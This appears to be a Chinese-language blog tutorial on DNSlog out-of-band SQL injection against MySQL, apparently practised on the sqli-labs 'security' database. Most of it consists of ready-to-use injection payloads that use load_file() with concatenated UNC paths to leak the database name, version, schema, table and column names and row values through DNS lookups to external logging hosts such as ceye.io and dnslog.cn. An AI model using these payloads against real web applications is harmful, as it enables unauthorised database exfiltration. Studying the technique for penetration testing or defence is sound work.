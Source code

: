 ![请添加图片描述](https://img-blog.csdnimg.cn/c04ba647a4f043a4baecd017cfd85dd6.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBAREJJTkdTRUM=,size_20,color_FFFFFF,t_70,g_se,x_16)

#### [1]DNSlog应用场景

在sql注入时为布尔盲注、时间盲注，注入的效率低且线程高容易被waf拦截，又或者是目标站点没有回显，我们在读取文件、执行命令注入等操作时无法明显的确认是否利用成功，这时候就要用到我们的DNSlog注入。如遇到MySql的盲注时，可以利用内置函数load_file()来完成DNSLOG。load_file()不仅能够加载本地文件，同时也能对诸如\www.test.com这样的URL发起请求。

PS：DNSLOG注入需要有两个条件，1.SQL服务器能连接网络；2.开启了LOAD_FILE() 读取文件的函数

#### [2]：DNSlog手工注入

1.要利用在线的dns在线服务器，网站可以记录下我们的DNS请求，并用网站查询信息

网站网址：http://www.dnslog.cn http://ceye.io/ http://admin.dnslog.link

2.pylaod构造

// 查询当前数据库
id=1'and load_file(concat("\\\\",database(),".cfrelh.dnslog.cn\\xxx.txt"))--+

//查询其他数据库
id=1'and load_file(concat("\\\\",(select schema_name from information_schema.schemata limit 0,1),".913n8.ceye.io\\xxx.txt"))--+
"""
由于该DNS记录只能回显一个字段，所以因该使用limit，第一个参数是查询起始位置，第二个参数是查询个数
limit 0,1 查询第一个数据库名
limit 1,1 查询第二个数据库名
limit 2,1 查询第三个数据库名
"""

//查询版本号
id=1'and load_file(concat("\\\\",version(),".913n8.ceye.io\\xxx.txt"))--+

//查询当前数据库security中第一个表名
id=1'and load_file(concat("\\\\",(select table_name from information_schema.tables where table_schema='security' limit 0,1 ),".913n8.ceye.io\\xxx.txt"))--+

"""
由于该DNS记录只能回显一个字段，所以因该使用limit，第一个参数是查询起始位置，第二个参数是查询个数
limit 0,1 查询第一个表名
limit 1,1 查询第二个表名
limit 2,1 查询第三个表名
"""
//查询security数据库emails表下第一个列名
id=1'and load_file(concat("\\\\",(select column_name from information_schema.columns where table_schema='security' and table_name='emails' limit 0,1),".913n8.ceye.io\\xxx.txt"))--+

//查询字段值  数据库名为security 表名emails 列名id
id=1'and load_file(concat("\\\\",(select id from security.emails limit 0,1),".913n8.ceye.io\\xxx.txt"))--+

注意：要用limit控制查询的数，以及查询的位置

```
// 查询当前数据库
id=1'and load_file(concat("\\\\",database(),".913n8.ceye.io\\xxx.txt"))--+

//查询其他数据库
id=1'and load_file(concat("\\\\",(select schema_name from information_schema.schemata limit 0,1),".913n8.ceye.io\\xxx.txt"))--+
"""
由于该DNS记录只能回显一个字段，所以因该使用limit，第一个参数是查询起始位置，第二个参数是查询个数
limit 0,1 查询第一个数据库名
limit 1,1 查询第二个数据库名
limit 2,1 查询第三个数据库名
"""

//查询版本号
id=1'and load_file(concat("\\\\",version(),".913n8.ceye.io\\xxx.txt"))--+
```